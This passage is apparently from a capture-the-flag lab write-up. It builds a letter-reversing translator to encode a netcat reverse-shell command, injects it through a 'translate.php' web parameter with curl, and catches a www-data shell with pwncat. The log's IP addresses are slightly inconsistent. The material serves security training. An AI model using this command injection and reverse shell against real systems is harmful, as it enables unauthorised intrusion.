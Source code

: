 `vim ./translator.py`:
```python
#!/usr/bin/python3

def translate_char(c):
    if 'a' <= c <= 'z':  # Check if the character is a lowercase letter
        return chr(ord('z') - (ord(c) - ord('a')))
    else:
        return c  # Leave the character unchanged if it's not a lowercase letter

def translate_string(s):
    return ''.join(translate_char(c) for c in s)

# Input from the user
input_string = input("Enter a string: ")
# Apply the translation
translated_string = translate_string(input_string)

# Print the result
print("Translated string:", translated_string)
```

`chmod u+x ./translator.py`

`./translator.py`:
```          
Enter a string: nc -e /bin/bash 192.168.56.118 4444
Translated string: mx -v /yrm/yzhs 192.168.56.118 4444
```

`pwncat-cs -lp 4444`:
```
[13:13:13] Welcome to pwncat 🐈!
bound to 0.0.0.0:4444 ←
```

```
cmd='mx -v /yrm/yzhs 192.168.56.118 4444;mx -v /yrm/yzhs 192.168.56.118 4444'; \
encoded_cmd=$(printf %s "$cmd" | jq -s -R -r @uri); \
curl "http://192.168.56.138/translate.php?hmv=$encoded_cmd";
```

```
[13:40:40] received connection from 192.168.56.137:58474 ←
[13:40:41] 192.168.56.135:58474: registered new host w/ db
```

![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
www-data ←
```

`id`:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
